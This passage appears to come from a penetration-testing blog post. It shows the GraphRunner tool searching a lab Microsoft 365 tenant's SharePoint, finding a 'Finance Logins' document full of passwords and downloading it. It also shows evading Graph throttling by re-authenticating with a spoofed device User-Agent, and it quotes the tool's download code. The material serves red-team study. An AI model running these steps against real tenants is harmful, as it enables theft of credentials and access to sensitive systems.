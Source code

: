 ```
Location: https://iancloudpwned.sharepoint.com/sites/FinanceTeam/Shared Documents/Finance Logins.docx
Created Date: 11/06/2023 00:17:46
Last Modified Date: 11/06/2023 00:17:00
Size: 20.74 KB
File Preview: <ddd/><c0>PASSWORDS</c0>) Service/Account: Finance Database URL: https://10.10.11.15/login Username: <ddd/> <c0>Password</c0>: <REDACTED> Service/Account: Accounting Software URL: https://accounting.<ddd/>
DriveID & Item ID: b!XM0yHkS8s0KPA7drboV7c7bd4PO1jD1BpS2fN8axCu6HW_Ya2jEcSZSebeuGuDsI\:01UALFMSZAKNKICFDDHRH2II4AID3NQRGJ
================================================================================
[*] Do you want to download any of these files? (Yes/No/All)
yes
[*] Enter the result number(s) of the file(s) that you want to download. Ex. "0,10,24"
0
[*] Now downloading passwords.xlsx
[*] Do you want to download any more files? (Yes/No/All)                                                                                                                                                                                    
No
[*] Quitting...
```

> If you receive the error `TooManyRequests`, this is due to Microsoft Graph request throttling. Further information on this can be found in [Microsoft's documentation](https://learn.microsoft.com/en-us/graph/throttling). The tool's author, dafthack, has also acknowledged that this can sometimes be an [issue](https://github.com/dafthack/GraphRunner/issues/9). If you do see this, then the error includes the line number from `GraphRunner.ps1` that encountered the issue - in this case line `6741`. Looking at the code, we see that seems this stems from the request below.
{: .prompt-info }

```
    $access_token = $tokens.access_token
    $itemarray = $driveitemids.split(":")
    $downloadUrl = ("https://graph.microsoft.com/v1.0/drives/" + $itemarray[0] + "/items/" + $itemarray[1] + "/content")
    $downloadheaders = @{
    "Authorization" = "Bearer $access_token"
    "User-Agent" = $UserAgent
    }
    Write-Host -ForegroundColor yellow "[*] Now downloading $FileName"
    Invoke-RestMethod -Uri $downloadUrl -Headers $downloadheaders -OutFile $filename
}
```

The only variable that can be changed in this request is the `User Agent`. In this case, we can authenticate again using the `Get-GraphTokens` cmdlet with the `-Device` and `-Browser` parameters. For example - `Get-GraphTokens -Device AndroidMobile -Browser Android`.

The files contain credentials that can give access to very sensitive systems and data, which also potentially can grant access to the underlying servers ( in case there are any abusable functionalities, such as file uploads or known application vulnerabilities).
